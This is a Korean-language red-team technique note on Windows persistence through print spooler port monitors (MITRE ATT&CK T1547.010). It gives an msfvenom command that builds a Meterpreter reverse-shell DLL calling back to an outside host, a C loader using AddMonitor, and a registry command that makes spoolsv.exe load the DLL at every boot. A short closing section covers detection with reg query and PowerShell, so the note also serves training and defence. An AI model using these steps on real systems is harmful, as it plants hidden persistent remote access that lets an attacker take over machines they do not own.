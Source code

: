 # T1547.010 Port Monitors

Status: Persistence

---

# Summary

- MITRE ATT&CK : Enterprise - Persistence - Boot or Logon Autostart Execution - Port Monitors
- Require Privilege : Administrator Level
- Running Privilege : Administrator Level
- Description : `spoolsv.exe`의 AddMonitor API 함수를 이용하여 악성 dll을 로딩한다.

---

# How To

## Step 1. 악성 DLL 생성

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f dll > malicious.dll
```

## Step 2. DLL 로더 제작

```c
// Monitors.exe
#include "Windows.h"
 
int main() {
    MONITOR_INFO_2 monitorInfo;
    TCHAR env[12] = TEXT("Windows x64");
    TCHAR name[12] = TEXT("Monitor");
    TCHAR dll[12] = TEXT("malicious.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = env;
    monitorInfo.pDLLName = dll;
    AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
    return 0;
}
```

## Step 3. DLL 로딩

```bash
cmd> copy C:\Users\pentestlab\Desktop\malicious C:\Windows\System32
cmd> C:\Windows\System32\Monitors.exe
```

---

# To Persistence

- [How To] 와 같은 방식으로 수행하면 시스템 재부팅시 소멸
- 악성코드로서 지속성을 유지하려면 아래와 같은 방법 사용

방법 1. 다른 Persistence와 연계하여 `System32/Monitor.exe` 실행

- Task Scheduler나 Service와 같이 다른 Persistence를 이용하여 DLL 로더를 트리거
- 하지만 이 방법의 경우 관리자 수준의 권한이 매번 필요

방법 2. 관련 레지스트리 키를 감염

```
reg add "hklm\system\currentcontrolset\control\print\monitors\Malicious" /v "Driver" /d "malicious.dll" /t REG_SZ
```

- `spoolsv.exe` 가 실행될 때 참조하는 레지스트리 키에 악성 DLL을 등록
- `spoolsv.exe` 는 여기에 등록된 DLL을 전부 로딩

---

# Blue Team Solution

## A. 등록된 포트 모니터를 확인

방법 1. reg 명령어

```
PS> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\Appmon
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\Local Port
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\Microsoft Shared Fax Monitor
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\ssd3c Langmon
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\Standard TCP/IP Port
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\USB Monitor
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\WSD Port
```

방법 2. Powershell을 이용하여 Recursive 하게 탐색([방법 1] 보다 정밀함)

```powershell
Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Control\Print 
|Get-ItemProperty 
| where { $_ -match "\\\\(.*)\\(.*).dll" }
```

---

# Reference

[Persistence - Port Monitors](https://pentestlab.blog/2019/10/28/persistence-port-monitors/)
